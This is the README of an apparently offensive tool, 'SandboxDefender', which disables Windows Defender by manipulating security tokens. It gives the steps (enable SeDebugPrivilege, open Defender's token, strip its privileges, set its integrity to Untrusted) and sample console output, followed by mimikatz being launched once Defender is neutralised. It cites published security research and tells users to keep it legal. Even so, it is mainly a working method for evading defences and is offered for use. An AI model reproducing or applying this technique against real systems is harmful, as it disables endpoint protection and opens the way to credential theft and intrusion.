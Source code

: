 # Sandbox Defender

Sandboxing Defender (and probably other AV/EDRs) using Security Token manipulation.

If you do use any of the code in these repositories **keep it legal!**

# Introduction

This code was written after reading [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/) by **Elastic Security Research**. I am a little bit late to the party it would seem, the article was made public on the 02/02/22 (3 days ago as of writing), and [Martin Ingesens TokenStomp](https://github.com/MartinIngesen/TokenStomp) was posted 04/02/22. MUST code faster!

Anyway, writing this code was fun.

The technique is very simple:

- Enable the `SeDubgPrivilege` in our process security token.
- Get a handle to Defender using `PROCESS_QUERY_LIMITED_INFORMATION`.
- Get a handle to the Defender token using `TOKEN_ALL_ACCESS`.
- Disable all privileges in the token using `SetPrivilege`
- Set the Defender token Integrity level to Untrusted.
- Do bad things... legally of course!

# Example

Execution of the code is shown below (then executing mimikatz after defender is sandboxed):

```
.\SandboxDefender.exe
[+] Getting a token handle for this process.
[+] Token handle: 0x2EC
[+] Enabling SeDebugPrivilege.
[+] SeDebugPrivilege enabled.
[+] Defender PID: 5212
[+] Getting a process handle for Defender.
[+] Process handle: 0x2F0
[+] Getting a token handle for the Defender process.
[+] Token handle: 0x2F4
[+] Will disable Defender privileges.
[+] Will set Defender Integrity to Untrusted.
[+] Done... Have a nice day!

.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

# Nice Pictures

This is Defender before the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/pre.png?raw=true)

This is Defender afetr the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/post.png?raw=true)
